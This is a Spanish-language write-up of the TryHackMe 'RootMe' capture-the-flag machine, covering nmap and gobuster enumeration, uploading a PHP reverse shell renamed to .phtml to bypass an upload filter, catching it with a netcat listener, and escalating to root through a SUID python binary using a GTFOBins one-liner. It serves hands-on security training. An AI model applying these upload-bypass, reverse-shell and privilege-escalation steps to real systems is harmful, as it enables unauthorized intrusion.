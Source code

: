 # Resolución de la Máquina: RootMe

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 14/06/2025
- **Sistema Operativo:** Linux


## Descripción

"Root Me" es una máquina de nivel fácil diseñada para introducir a los usuarios en conceptos fundamentales de pruebas de penetración web y escalada de privilegios en sistemas Linux. Es ideal para principiantes que están dando sus primeros pasos en entornos de CTF.

Durante la resolución, el atacante debe identificar una vulnerabilidad web común que permite obtener acceso inicial al sistema. Posteriormente, se explora una sencilla pero efectiva técnica de escalada de privilegios basada en archivos SUID mal configurados.

Esta máquina es especialmente útil para:

> Practicar enumeración web y de servicios básicos

> Comprender cómo aprovechar inyecciones simples o ejecución remota de comandos

> Aplicar técnicas básicas de post-explotación

> Identificar binarios con permisos indebidos en sistemas Linux


## Enumeración

### Escaneo con Nmap

```bash
sudo nmap -sV -p- -T5 -sS -Pn 10.10.71.90

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-14 19:09 CEST
Warning: 10.10.71.90 giving up on port because retransmission cap hit (2).
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.46% done; ETC: 19:10 (0:00:30 remaining)
Nmap scan report for 10.10.71.90
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Escaneo con Gobuster

```bash
gobuster dir -u http://10.10.14.154 -w /usr/share/wordlists/wfuzz/general/common.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.14.154
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.14.154/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.14.154/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.14.154/panel/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.14.154/uploads/]
Progress: 3804 / 3808 (99.89%)
===============================================================
Finished
===============================================================
```
## Explotación

Accederemos al directorio /panel/, allí veremos que podemos subir archivos, por lo que trataremos de cargar un reverse shell en PHP que generaremos a través de https://www.revshells.com/
Nos encontraremos con que no podemos subir archivos con extensión PHP, por lo tanto le definiremos la extensión de PHTML.

Una vez cargado lo ejecutaremos accediendo al directorio /uploads/, habiendonos puesto en escucha previamente por netcat.

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.219] from (UNKNOWN) [10.10.14.154] 51008
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:56:50 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (914): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$
```

Para favorecer al tratamiento de la bash lanzaremos los siguientes comandos.

`python3 -c 'import pty; pty.spawn("/bin/bash")'`	Nos genera una shell interactiva
`export TERM=xterm`	Informa a los programas del tipo de terminal

Una vez establecida la conexión mediante la reverse shell ejecutaremos el siguiente comando para buscar la flag que nos solicitan

```bash
www-data@rootme:/$ find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
www-data@rootme:/$
```
## Escalada de privilegios

Para ello buscaremos aquellos binarios que tengan el SUID activado, estos archivos se ejecutan con los permisos del propietario (normalmente root), sin importar quién los ejecute.

```bash
www-data@rootme:/$ find -perm -4000 2>/dev/null
find -perm -4000 2>/dev/null
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec

```
Si buscamos en GTFOBins veremos que el binario de python es vulnerable a SUID

```bash
install -m =xs $(which python) .
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Fianlmente si accedemos a la carpeta de root veremos el flag de root.txt

